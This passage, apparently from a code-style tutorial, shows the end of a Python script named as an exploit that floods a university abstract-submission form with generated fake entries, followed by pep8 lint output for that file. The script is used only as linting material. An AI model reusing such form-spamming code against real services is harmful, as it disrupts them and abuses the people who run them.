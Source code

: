 ```
        faculty_advisor = advisors_nums[randrange(0,len(advisors_nums))]
        abstract_title = dictionary.readline().strip()
        abstract = first_name+' '+last_name+' '+email+' '+degree_level+' '+department+' '+faculty_advisor+' '+abstract_title
        abstract += ' '+abstract
        data = {'first_name': first_name, 
            'last_name': last_name,
            'email': email,
            'degree_level': degree_level,
            'department': department,
            'faculty_advisor': faculty_advisor,
            'abstract_title': abstract_title,
            'abstract': abstract,
            'num': word_key,
            'key': word_value,
            'submit': 'Submit'
            }
        requests.post(target, data=data)
    print 'Finished spamming the submission system'
```

Let's run `pep8` on it and see what happens. 

```
byu_abstract_exploit/break_abstract_submission.py:6:1: E302 expected 2 blank lines, found 1
byu_abstract_exploit/break_abstract_submission.py:10:1: E302 expected 2 blank lines, found 1
byu_abstract_exploit/break_abstract_submission.py:16:1: E302 expected 2 blank lines, found 1
byu_abstract_exploit/break_abstract_submission.py:21:1: E302 expected 2 blank lines, found 1
byu_abstract_exploit/break_abstract_submission.py:29:80: E501 line too long (88 > 79 characters)
byu_abstract_exploit/break_abstract_submission.py:37:22: E201 whitespace after '['
byu_abstract_exploit/break_abstract_submission.py:37:62: E202 whitespace before ']'
byu_abstract_exploit/break_abstract_submission.py:38:22: E201 whitespace after '['
byu_abstract_exploit/break_abstract_submission.py:38:62: E202 whitespace before ']'
byu_abstract_exploit/break_abstract_submission.py:38:64: E261 at least two spaces before inline comment
byu_abstract_exploit/break_abstract_submission.py:38:80: E501 line too long (87 > 79 characters)
byu_abstract_exploit/break_abstract_submission.py:44:49: E231 missing whitespace after ','
byu_abstract_exploit/break_abstract_submission.py:45:25: E261 at least two spaces before inline comment
byu_abstract_exploit/break_abstract_submission.py:46:52: E231 missing whitespace after ','
byu_abstract_exploit/break_abstract_submission.py:48:80: E501 line too long (124 > 79 characters)
byu_abstract_exploit/break_abstract_submission.py:50:17: E201 whitespace after '{'
byu_abstract_exploit/break_abstract_submission.py:50:43: W291 trailing whitespace
byu_abstract_exploit/break_abstract_submission.py:51:17: E128 continuation line under-indented for visual indent
byu_abstract_exploit/break_abstract_submission.py:52:17: E128 continuation line under-indented for visual indent
byu_abstract_exploit/break_abstract_submission.py:53:17: E128 continuation line under-indented for visual indent
byu_abstract_exploit/break_abstract_submission.py:54:17: E128 continuation line under-indented for visual indent
byu_abstract_exploit/break_abstract_submission.py:55:17: E128 continuation line under-indented for visual indent
byu_abstract_exploit/break_abstract_submission.py:56:17: E128 continuation line under-indented for visual indent
byu_abstract_exploit/break_abstract_submission.py:57:17: E128 continuation line under-indented for visual indent
byu_abstract_exploit/break_abstract_submission.py:58:17: E128 continuation line under-indented for visual indent
byu_abstract_exploit/break_abstract_submission.py:59:17: E124 closing bracket does not match visual indentation
```